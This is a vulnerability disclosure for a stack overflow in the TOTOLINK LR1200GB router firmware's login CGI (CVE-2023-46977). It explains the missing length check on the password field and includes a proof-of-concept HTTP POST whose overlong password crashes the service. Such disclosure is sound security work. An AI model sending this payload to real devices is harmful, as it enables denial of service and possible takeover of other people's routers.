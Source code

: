 # TOTOLINK LR1200GB V9.1.0u.6619_B20230130 Stack Overflow

## Product Information

Product: TOTOLINK LR1200GB
Firmware Version: V9.1.0u.6619_B20230130
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

![51d6734d56bebc2b1c77c3f23c5c1aed](uploads/51d6734d56bebc2b1c77c3f23c5c1aed.png)

## Analysis

`v3` obtains the value from the `password` field input by the user and is processed in function `urldecode` . The processed result is stored in `v33` on stack.

![image-20231028055530968](uploads/image-20231028055530968.png)

![image-20231028054948914](uploads/image-20231028054948914.png)

As shown in the two images below, in the function `urldecode`, the processed `password` (`a1`) is written to a buffer (`a2`, `v3`) located on the stack. **However, there is no validation to check if the `password` (`a1`) exceeds the length of the buffer (`a2`, `v3`).** Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20231028060414311](uploads/image-20231028060414311.png)

![image-20231028061113553](uploads/image-20231028061113553.png)

## POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 408
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"username":"admin","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
```

![image-20231028054422613](uploads/image-20231028054422613.png)

## CVE-2023-46977